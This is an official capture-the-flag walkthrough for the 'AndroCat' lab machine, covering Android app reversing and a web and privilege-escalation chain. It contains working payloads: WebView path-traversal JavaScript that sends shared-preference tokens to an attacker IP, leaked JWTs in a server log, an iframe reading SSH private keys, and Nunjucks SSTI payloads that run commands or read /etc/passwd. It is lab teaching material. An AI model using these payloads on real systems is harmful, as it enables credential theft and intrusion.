s


        <font size="6">AndroCat</font>

​	24<sup>th</sup> Oct 2023 / D2x.xx.xx

​	Prepared By: Xclow3n

​	Challenge Author(s): Xclow3n

​	Difficulty: <font color=orange>Medium</font>

​	Classification: Official


# [Synopsis](#synopsis)

AndroCat is a medium Linux machine that involves reversing an Android app and exploiting an insecure implementation of webview in the Android app, allowing attackers to perform XSS and stealing shared preferences files, allowing attackers to get admin token, then exploiting an XSS in dynamic PDF generation, and escalating it to read local files and leak ssh keys for rick user then rick user can run logrotate as root using [this blog](https://joshua.hu/gaining-root-with-logrotate-sudo-ubuntu) we can overwrite a cron script running as root and get shell as root.


# Solution

### Enumeration

```bash	
ports=$(nmap -p- --min-rate=1000 -T4 10.129.228.64 | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.228.64
```



The Nmap output reveals that two ports are open, ssh and nginx. Visiting nginx on port 80 gives us the default nginx web page.



There is little to do here. We are also provided with an app. Let's open the app in an emulator.
Opening the app, we get the following login page, and we can also register a user.




When registering a user, we get a "Something Went Wrong" message. Let's intercept the request with burpsuite



We can see it sending a web request to `campusconnect.htb`, let's add that to our `/etc/hosts` and try logging in and registering again. After updating `/etc/hosts`, we can register and login, and we get the following page after logging in.



When we try to post something we can see the following interesting note



let's post a simple xss payload: ``



We have a stored XSS, but there are no cookies. Let's open this app in jadx, check the source code, and see how this application is created.

We can see there is some AdminActivity in this Android app.



Let's take a look at the login functionality.

```java	
public void onResponse(JSONObject jSONObject2) {
  try {
    if (!jSONObject2.getString("token").isEmpty()) {
      MainActivity.this.sharedPreferenceClass.setValueString("token", jSONObject2.getString("token"));
      if (jSONObject2.has("adminToken")) {
        MainActivity.this.sharedPreferenceClass.setValueString("adminToken", jSONObject2.getString("adminToken"));
        MainActivity.this.goToAnotherActivity(AdminActivity.class);
      } else {
        MainActivity.this.goToAnotherActivity(HomeActivity.class);
      }
    }
  } catch (JSONException unused) {
    Toast.makeText(MainActivity.this, "Invalid Credentials", 1).show();
  }
}
```

If the login json response has a token key, store it in the shared preferences, and if there is an `adminToken  ` key in the response, save it inside `sharedPreferences` and go to `AdminActivity`. Still, if there is no `adminToken` in the response, go to `HomeActivity`.

This implementation is not secure as `Shared Preferences are stored as a file in the filesystem on the device. They are, by default, stored within the app's data directory with  filesystem permissions set that only allow the UID that the specific  application runs with to access them. So, they are private in so much as Linux file permissions restrict access to them, the same as on any  Linux/Unix system.`


Taking a look at `SharedPreferenceClass`

```java
 private static final String USER_PREF = "user";
 private SharedPreferences appShared;
 private SharedPreferences.Editor prefsEditor;

 public SharedPreferenceClass(Context context) {
    SharedPreferences sharedPreferences = context.getSharedPreferences(USER_PREF, 0);
    this.appShared = sharedPreferences;
    this.prefsEditor = sharedPreferences.edit();
 }
```

So when storing this token, the application will create an XML file named `user.xml` under `/data/data/com.example.campusconnect/shared_prefs/` folder. Taking a look at the `HomeActivity`

```java
public void onCreate(Bundle bundle) {
  super.onCreate(bundle);
  setContentView(R.layout.activity_home);
  final String string = getSharedPreferences("user", 0).getString("token", "");
  WebView webView = (WebView) findViewById(R.id.webView);
  this.webView = webView;
  webView.getSettings().setJavaScriptEnabled(true);
  this.webView.getSettings().setDomStorageEnabled(true);
  this.webView.loadUrl("file:///android_asset/index.html");
  this.webView.setWebChromeClient(new WebChromeClient());
  this.webView.setWebViewClient(new WebViewClient() { 
    @Override // android.webkit.WebViewClient
    public WebResourceResponse shouldInterceptRequest(WebView webView2, WebResourceRequest webResourceRequest) {
      Uri url = webResourceRequest.getUrl();
      if (url.getPath().startsWith("/local_cache/")) {
        File file = new File(HomeActivity.this.getCacheDir(), url.getLastPathSegment());
        if (file.exists()) {
          try {
            FileInputStream fileInputStream = new FileInputStream(file);
            HashMap hashMap = new HashMap();
            hashMap.put(HttpHeaders.ACCESS_CONTROL_ALLOW_ORIGIN, "*");
            return new WebResourceResponse("text/html", "utf-8", 200, "OK", hashMap, fileInputStream);
          } catch (IOException unused) {
            return null;
          }
        }
      }
      return super.shouldInterceptRequest(webView2, webResourceRequest);
    }

    @Override // android.webkit.WebViewClient
    public void onPageFinished(WebView webView2, String str) {
      super.onPageFinished(webView2, str);
      HomeActivity.this.webView.evaluateJavascript("javascript:putDataInStorage('backendUrl', '" + HomeActivity.this.getString(R.string.backend_url) + "')", null);
      HomeActivity.this.webView.evaluateJavascript("javascript:putDataInStorage('token', '" + string + "')", null);
      HomeActivity.this.webView.evaluateJavascript("javascript:populatePosts()", null);
    }
  });
}
```

The application uses `WebView` in the `HomeActivity`, and it intercepts all the requests from the `WebView`. If the request URI matches a given pattern, then the response is returned from the app resources or local files. The problem arises when an attacker can manipulate the path of the returned file and, through  XHR requests, gain access to arbitrary files.
Since we already have a XSS we can steal the `adminToken` using the following payload

```javascript
function theftFile(path, callback) {
     var oReq = new XMLHttpRequest();

     oReq.open("GET", "https://any.domain/local_cache/..%2F" + encodeURIComponent(path), true);
     oReq.onload = function(e) {
       callback(oReq.responseText);
     }
     oReq.onerror = function(e) {
       callback(null);
     }
     oReq.send();
   }

   theftFile("shared_prefs/user.xml", function(contents) {
       location.href = "http://10.10.14.36/?data=" + encodeURIComponent(contents);
   });
```


Let's store this in a javascript file start a HTTP Server, and use the following payload to trigger it.

```html

```

After waiting for 1-2 minutes we get the following calls on our python server

```
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.129.230.59 - - [30/Oct/2023 07:12:26] "GET /exp.js HTTP/1.1" 200 -
::ffff:10.129.230.59 - - [30/Oct/2023 07:12:27] "GET /?data=%3C%3Fxml%20version%3D%271.0%27%20encoding%3D%27utf-8%27%20standalone%3D%27yes%27%20%3F%3E%0A%3Cmap%3E%0A%20%20%20%20%3Cstring%20name%3D%22adminToken%22%3EeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieGNsb3czbiIsImVtYWlsIjoieGNsb3czbkBoYWNrdGhlYm94LmV1Iiwicm9sZSI6Im1vZGVyYXRvciIsImZvciI6ImFkbWluLmNhbXB1c2Nvbm5lY3QuaHRiIiwiaWF0IjoxNjk4NjMwMTc5fQ.UDZ9zcoHV73ma_I5UV7V_mgEcMWaGyz0DL5IixOKWQw%3C%2Fstring%3E%0A%20%20%20%20%3Cstring%20name%3D%22token%22%3EeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieGNsb3czbiIsImVtYWlsIjoieGNsb3czbkBoYWNrdGhlYm94LmV1Iiwicm9sZSI6InRlYWNoZXIiLCJmb3IiOiJjYW1wdXNjb25uZWN0Lmh0YiIsImlhdCI6MTY5ODYzMDE3OX0.-u-m-lqzrVjx0dQG-tcH4x2KMGFlJXcTYa1sCz90cyk%3C%2Fstring%3E%0A%3C%2Fmap%3E%0A HTTP/1.1" 200 -
```

We got the `Admin Token`. After getting admin, there is an endpoint in `admin.campusconnect.htb` named `/api/exportAttendance`, and we have to include the admin token as a header named `admin-token`



We get a PDF, and we can see our newly created user is also there,  So I'm assuming it's generating dynamic PDF through a browser. Let's see if we can get XSS, thereby registering a new user with our payload in the name.

Payload: `<script>document.write(window.location)</script>`



And we got XSS in leaked the file path. Since we have XSS and it uses the file protocol, we can read files from the system. Let's read the ssh keys of the current user.

Payload: `<iframe src='file:///home/rick/.ssh/id_rsa' width=1000 height=1000 ></iframe>`



Let's ssh into the machine as rick user.


### Privilege Escalation

After getting shell as `rick` user and checking for all the processes we can see a node application running as root 

```bash
root         846  0.0  0.0   2608   600 ?        Ss   16:47   0:00 /bin/sh -c /bin/bash -c "/usr/bin/sleep 120 && cd /root/serviceManager/ && /usr/local/bin/node --experimental-permission --allow-fs-read='/root/serviceManager/' --allow-fs-write='/etc/systemd/system/' index.js"
```

checking for all open ports reveals port `8080` is open and it only accepts connection from localhost

```bash
LISTEN        0              511                     127.0.0.1:8080             0.0.0.0:*
```

Let's do port forwarding and access the webpage on our browser



Visting the web page we can see its a service manager and there is a email settings which looks interesting



We can edit email template and we can see its using nunjucks expressions, let's try SSTI here.

using this payload doesn't work for some reason 

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`


If we take a look at that cron command we can see its using node `--experimental-permission` model and it only only reading files from the application directory and only allow file write to one specific directory.


The application is using `v20.5.0` node version which is not the latest one let's check nodejs channel log for `node v20.5.1` so we can see what has been fixed in the later release and we were able to find[ this CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32004) 


The description is pretty self explanatory. We can build the following payload

```
{{range.constructor("return global.process.mainModule.require('fs').readFileSync(Buffer.from('/root/serviceManager/mail/../../../../../../../etc/passwd'))")()}}
```


